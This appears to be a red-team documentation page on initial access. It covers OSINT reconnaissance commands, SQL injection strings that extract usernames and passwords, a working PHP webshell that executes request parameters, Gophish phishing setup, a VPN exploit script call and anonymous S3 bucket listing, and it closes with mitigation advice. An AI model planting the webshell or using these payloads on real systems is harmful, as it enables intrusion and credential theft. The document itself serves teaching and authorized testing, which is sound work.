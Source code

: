 ```yaml
---
title: Initial Access Techniques
description: Methods for obtaining initial entry into target environments
---
```


# Initial Access Techniques

Initial access represents the first phase of an attack, where the operator attempts to gain a foothold in the target environment. This section covers various techniques for obtaining initial access during authorized red team operations.

## External Reconnaissance

Before attempting access, thorough reconnaissance is essential:

- **OSINT**: Gathering publicly available information
- **Network scanning**: Identifying exposed services and potential entry points
- **Subdomain enumeration**: Discovering forgotten or unmanaged assets

### OSINT Tools

```bash
# Example reconnaissance workflow
whois target.com
theHarvester -d target.com -b google,linkedin
amass enum -d target.com
subfinder -d target.com
```

## Web Application Attacks

Web applications often provide the path of least resistance for initial access:

### SQL Injection

SQL injection remains a critical vulnerability in many web applications:

```sql
-- Basic SQL injection test
' OR 1=1 --
' UNION SELECT username, password FROM users --
```

### File Upload Vulnerabilities

Unrestricted file uploads can lead to remote code execution:

```php
<?php
  // Basic PHP webshell
  if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
  }
?>
```

## Phishing Campaigns

Phishing remains one of the most effective initial access techniques:

1. **Reconnaissance**: Gather information about targets
2. **Infrastructure**: Set up domains, email services, and collection mechanisms
3. **Lure creation**: Develop convincing scenarios and content
4. **Execution**: Deliver the campaign
5. **Post-exploitation**: Establish persistence once access is obtained

### Example Phishing Framework Setup

```bash
# Setting up Gophish
docker pull gophish/gophish
docker run -d -p 3333:3333 -p 8080:8080 --name gophish gophish/gophish
```

## External Service Exploitation

Targeting externally exposed services can provide direct access:

### VPN and Remote Access

VPN services and remote access solutions often become targets:

```bash
# Example Pulse Secure VPN scanner
./pulse-exploit.sh -u https://vpn.target.com --check
```

### Cloud Misconfigurations

Cloud resources with misconfigurations can provide initial access vectors:

```bash
# S3 bucket enumeration
aws s3 ls s3://company-backup-bucket/ --no-sign-request
```

## Mitigation Strategies

Organizations can protect against these attack vectors by:

- Implementing robust patch management
- Conducting regular security awareness training
- Deploying multi-factor authentication
- Performing regular external penetration testing
- Using cloud security posture management tools

## References

- [MITRE ATT&CK - Initial Access](https://attack.mitre.org/tactics/TA0001/)
- [OWASP Top 10](https://owasp.org/www-project-top-ten/)